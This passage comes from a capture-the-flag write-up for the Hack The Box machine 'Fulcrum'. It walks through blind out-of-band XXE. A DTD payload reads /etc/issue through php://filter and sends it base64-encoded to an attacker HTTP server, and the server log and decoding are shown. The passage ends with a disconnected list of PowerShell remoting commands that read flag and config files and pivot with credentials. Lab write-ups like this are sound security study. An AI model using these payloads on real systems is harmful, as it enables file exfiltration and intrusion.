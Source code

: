 So we now we know what the vulnerability is, and we have a working "proof of concept". We can safely say that this is going to be the entry point into the box so now it's time to dive deeper. 

## Exploitation
### Using Blind XXE to Read Source Code Files 

Honestly, this part _fucking sucked_ for me. For some reason I'm awful either awful at following instructions, or there was something else going on, I clearly didn't know how XXE properly, which made the following section take _forever_. 

I used a combination of the following resources, finally put together a stable formula for performing the OOB XXE. I'm not 100% if it was intended, but using the `php://filter` pretty much was a requirement to pull data out through XXE (no other methods seemed to work). If you are just interested in getting the shell, it's safe to skip this section. 

I recommend reading the following resources to understand the different ways we can take advantage of an XXE vulnerability. 

Links: 
| [1](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_yarbabin_XXE_Jedi_Babin.pdf) 
| [2](https://blog.zsec.uk/out-of-band-xxe-2/) |
| [3](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870)


!["Using XXE to Request contents of "/etc/issue""](/assets/fulcrum/7.png "Using XXE to Request contents of "/etc/issue"")

_Contents of test.dtd_
```
root@dastinia:~/htb/fulcrum/serve# cat test.dtd
  <!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/issue">
  <!ENTITY % intern "<!ENTITY &#37; xxe SYSTEM 'http://10.10.14.128/result?%payl;'>">
```

Upon successful exploitation, we should be receiving the contents of `/etc/issue` as a `base64` encoded string.

```
root@dastinia:~/htb/fulcrum/serve# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.62 - - [20/Jun/2018 21:46:50] "GET /test.dtd HTTP/1.0" 200 -
10.10.10.62 - - [20/Jun/2018 21:46:50] code 404, message File not found
10.10.10.62 - - [20/Jun/2018 21:46:50] "GET /result?Q3JlYXRlZCBieTogQE9uZUxvZ2ljYWxNeXRoCklQIEFkZHJlc3M6IFw0e2VuczMyfQpIb3N0bmFtZTogICBcbgoKR29vZCBMdWNrIQoKCg== HTTP/1.0" 404 -
```

Decoding it gives us the following content.

```
$ echo -n "Q3JlYXRlZCBieTogQE9uZUxvZ2ljYWxNeXRoCklQIEFkZHJlc3M6IFw0e2VuczMyfQpIb3N0bmFtZTogICBcbgoKR29vZCBMdWNrIQoKCg==" | base64 -d
Created by: @OneLogicalMyth
IP Address: \4{ens32}
Hostname:   \n

Good Luck!
```


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke